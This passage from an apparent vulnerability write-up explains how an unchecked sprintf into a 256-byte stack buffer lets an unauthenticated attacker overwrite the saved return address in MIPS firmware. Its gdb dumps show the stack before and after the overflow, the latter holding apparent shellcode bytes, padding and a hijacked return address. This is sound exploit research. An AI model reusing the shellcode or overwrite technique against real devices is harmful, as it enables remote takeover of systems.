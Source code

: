 In the disassembly above we can see that the destination string is a stack based buffer: `$sp + (0x238+var_110)`. Since *sprintf* is used instead of *snprintf*, there is nothing to prevent the function from writing past the buffer boundary.

## Exploitation
Why is this issue so serious? Because it gives an unauthenticated attacker the ability to control the Program Counter. How? By allowing the attacker to change the function return address that is stored on the program stack which used to direct execution at the end of the function execution.

As mentioned above the sprintf allows the attacker to write past the buffer boundary. On the stack, the buffer occupies 256 bytes:

```
(gdb) x/100wx $sp+0x128
0x7f8e1f78: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e1f88: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e1f98: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e1fa8: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e1fb8: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e1fc8: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e1fd8: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e1fe8: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e1ff8: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e2008: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e2018: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e2028: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e2038: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e2048: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e2058: 0x00000000 0x00000000 0x00000000 0x00000000
0x7f8e2068: 0x00000000 0x00000000 0x00000000 0x00000000

0x7f8e2078: 0x00595ea8 0x00000001 0x0043bb04 0x0043b8d0
```

The destination buffer stops at `0x7f8e2078` and begins at `0x7f8e1f78` which the difference being `0x100 (256)` as shown above. After the buffer, there are 8 bytes of local variables. The variables are followed by the saved return address (`$ra` register). This return address is used by the function before it returns. We can see the current value is `0x0043bb04` at location `0x7f8e2078 + 8`.


After the sprintf call at location `.text:005126A4`, the same location on the stack looks like this:

```
(gdb) x/100wx $sp+0x128
0x7f8e1f78: 0x0f242f3c 0xe001fdff 0xe001272b 0x06282728
0x7f8e1f88: 0x0224ffff 0x01015710 0xa2af0c01 0xa48fffff
0x7f8e1f98: 0x0f24ffff 0xe001fdff 0xafaf2778 0x0e3ce0ff
0x7f8e1fa8: 0xce35697a 0xaeaf697a 0x0d3ce4ff 0xad35080a
0x7f8e1fb8: 0xadaf0892 0xa523e6ff 0x0c24e2ff 0x8001efff
0x7f8e1fc8: 0x02242730 0x01014a10 0x0f240c01 0xe001fdff
0x7f8e1fd8: 0xa48f2728 0x0224ffff 0x0101df0f 0xa52b0c01
0x7f8e1fe8: 0x0124ffff 0xa114ffff 0x0628fbff 0x0f3cffff
0x7f8e1ff8: 0xef352f2f 0xafaf6962 0x0e3cf4ff 0xce352f6e
0x7f8e2008: 0xaeaf6873 0xa0aff8ff 0xa427fcff 0x0528f4ff
0x7f8e2018: 0x0224ffff 0x0101ab0f 0x41410c01 0x41414141
0x7f8e2028: 0x41414141 0x41414141 0x41414141 0x41414141
0x7f8e2038: 0x41414141 0x41414141 0x41414141 0x41414141
0x7f8e2048: 0x41414141 0x41414141 0x41414141 0x41414141
0x7f8e2058: 0x41414141 0x41414141 0x41414141 0x41414141
0x7f8e2068: 0x41414141 0x41414141 0x41414141 0x41414141

0x7f8e2078: 0x41414141 0x41414141 0x3e5126d0 0x0043b8d0
```
